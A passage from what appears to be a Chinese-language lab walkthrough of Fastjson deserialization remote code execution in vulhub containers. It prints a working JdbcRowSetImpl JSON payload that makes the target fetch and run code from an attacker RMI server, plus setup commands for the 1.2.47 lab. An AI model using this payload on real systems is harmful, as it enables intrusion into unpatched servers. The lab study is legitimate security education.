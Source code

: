 ```json
{
    "b":{
    # b 反序列化后的变量名称，可任意
        "@type":"com.sun.rowset.JdbcRowSetImpl",
     	# 反序列化时的类名
        "dataSourceName":"rmi://192.168.1.9:9999/TouchFile",
        "autoCommit":true
        # # 反序列化时会调用 setDataSourceName 和 setAutoCommit 的方法进行赋值
    }
}
```

**com.sun.rowset.JdbcRowSetImpl**：这是sun 官方提供的一个类库，支持传入一个 RMI 的源，当解析这个 URI 的时候，就会支持 RMI 远程调用，去指定的 RMI 地址中去调用方法。

**setDataSourceName**：给数据源的名字进行赋值，dataSourceName 代表要访问的 RMI 链接。

**setAutoCommit**：调用 lookup 方法，会连接到 RMI 服务器，下载恶意代码到本地并执行。

```bash
docker exec -it 93f /bin/bash
# 进入容器
cd /tmp
# 切换到目录
```

![image-20230722023644790](https://pic.mewhz.com/blog/image-20230722023644790.png)

创建成功~

![image-20230722023701480](https://pic.mewhz.com/blog/image-20230722023701480.png)

![image-20230722023708803](https://pic.mewhz.com/blog/image-20230722023708803.png)

web 服务和 RMI 服务均有反应~

---

### Fastjson 1.2.47 反序列化 RCE 漏洞

#### 影响版本

* Fastjson <= 1.2.47

#### 环境搭建

环境下载链接：https://github.com/vulhub/vulhub

```bash
# 下载项目
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
# 解压项目
unzip vulhub-master.zip
# 进入目录
cd vulhub-master/fastjson/1.2.47-rce
# 启动整个环境
docker compose up -d
```
